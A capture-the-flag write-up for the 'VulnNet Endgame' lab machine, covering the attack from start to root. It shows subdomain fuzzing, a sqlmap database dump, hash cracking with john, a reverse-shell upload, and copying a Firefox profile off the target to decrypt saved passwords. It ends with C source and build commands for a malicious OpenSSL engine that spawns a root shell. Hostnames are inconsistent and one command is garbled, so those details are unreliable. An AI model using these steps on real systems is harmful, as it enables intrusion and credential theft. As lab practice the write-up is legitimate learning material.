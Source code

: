 VulnnetEndgame

First of all we add the ip address 10.10.2.42 to the /etc/hosts:

	sudo nano /etc/hosts
	10.10.2.42   vulnneth.thm

after that we started nmap and gobuster but we had a few results, the challenge remind us that the enum is the key, so we musit search forn subdomains, and it's time fo wfuzz:

	wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://vulnnet.thh -H "Host:FUZZ.vulnneth.thm" --hw 9 (--hw we filter by word)

from the previous enumeration we get 3 subdomain api. blog. admin1. so we enter this subdomain at /etc/hosts and we surf on it.
The most interesting it's blog after watched one of this post in the network section of inspection there is something linked to api, and more specific with an sql injection, so we run sqlmap.

	sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=5
	sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=5 --all

now we have the all database records, it's time to check it.
from the records we obtain a list of username and password, and the hash of the password in argon2, so with sublime, we have created a password list and then it's time to use john:

 	john argon.hash -w=./password.txt
	
we obtain the credentials of the admin chris_w, we go straight to the login admin page in /typo3/index.php
it's time to do a revshell in order to achieve it we must turn off the extensions controlls and then upload the revshell
(NB start pwncat) 

now we're in the server by listing the directories, there is something strange a directory configuration of firefox and a normal user can access it, so by google it some exploit, we found it
a script to decrypt the password by entering a file of a general firefox settings so we proceed it this way:

	zip -r /tmp/2fjnrwth.default-release 2fjnrwth.default-release
	cd /tmp
	python3 -m http.server
	wget http://10.10.2.42:8000/2fjnrwth.default-release (in the host machine)
	python3 firefox-decrypt.py 2fjnrwth.default-release

and now we obtain the credentials of system account of user.txt, by running linpeas.sh we see that openssl had some capabilities so we check for some exploits, and we found it some interesting written in c.

	sudo apt install libssl-dev

	#include <openssl/engine.h>

	static int bind(ENGINE *e, const char *id) {
   	 setuid(0); setgid(0);
    	system("/bin/bash");
	}

	IMPLEMENT_DYNAMIC_BIND_FN(bind)
	IMPLEMENT_DYNAMIC_CHECK_FN()

	gcc -fPIC -o exploit.o -c exploit.c
	gcc -shared -o exploit.so -lcrypto exploit.o 

in practical we have created a fake shared object library, finally we import it on the machine to exploit and we run this command

	/home/system/Utilis/openssl openssl req -engine ./exploit.so --> with this command we try to create with the .so library a certificate but instead we did a privescaltion

it's time to get the third flag.
